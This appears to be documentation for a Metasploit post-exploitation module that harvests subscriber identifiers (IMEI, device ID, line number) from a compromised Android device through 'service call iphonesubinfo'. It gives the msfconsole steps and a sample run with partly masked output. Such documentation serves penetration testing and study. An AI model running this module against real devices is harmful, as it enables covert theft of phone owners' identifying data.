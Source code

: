 ## Vulnerable Application

  This post-exploitation module will extract subscriber information
  from the target device using  call service service call iphonesubinfo <transaction_code>.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use android/gather/sub_info`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see the extracted subscriber information.

## Options

  - **SESSION** - The session to run the module on.

## Extracted data

  - subscribe information

## Scenarios


  ```
msf5 exploit(multi/handler) > use post/android/gather/sub_info
msf5 post(android/gather/sub_info) > set session 1
session => 1
msf5 post(android/gather/sub_info) > run

[!] SESSION may not be compatible with this module.
[*] using code : 1
[*] using code : 2
[*] using code : 3
[*] using code : 4
[*] using code : 5
[*] using code : 6
[*] using code : 7
[*] using code : 8
[*] using code : 9
[*] using code : 10
[*] using code : 11
[*] using code : 12
[*] using code : 13
[*] using code : 14
[*] using code : 15
[*] using code : 16
[*] using code : 17
[*] using code : 18
[*] using code : 19
[*] using code : 20
[*] using code : 21
[*] using code : 22
[*] using code : 23
[*] using code : 24
[*] using code : 25
[*] using code : 26
[*] using code : 27
[*] using code : 28
[*] using code : 29
Subscriber info
===============

 transaction code                      value
 ----------------                      -----
 CompleteVoiceMailNumber
 CompleteVoiceMailNumberForSubscriber
 DeviceId                              86928xxxxxxxxxx
 DeviceIdForSubscriber
 DeviceSvn                             8692890262xxxxx
 GroupIdLevel1                         4042772534xxxxx
 GroupIdLevel1ForSubscriber            4042772534xxxxx
 IccSerialNumber                       ff
 IccSerialNumberForSubscriber          ff
 IccSimChallengeResponse
 ImeiForSubscriber                     8692890xxxxxxxx
 IsimChallengeResponse
 IsimDomain                            Voicemail
 IsimImpi                              Voicemail
 IsimImpu
 IsimIst
 IsimPcscf
 Line1AlphaTag
 Line1AlphaTagForSubscriber
 Line1Number                           899127217xxxxxxxxxx
 Line1NumberForSubscriber              899127217xxxxxxxxxx
 Msisdn
 MsisdnForSubscriber
 SubscriberId                          01
 SubscriberIdForSubscriber             01
 VoiceMailAlphaTag
 VoiceMailAlphaTagForSubscriber
 VoiceMailNumber
 VoiceMailNumberForSubscriber

[*] Post module execution completed
msf5 post(android/gather/sub_info) >
  ```
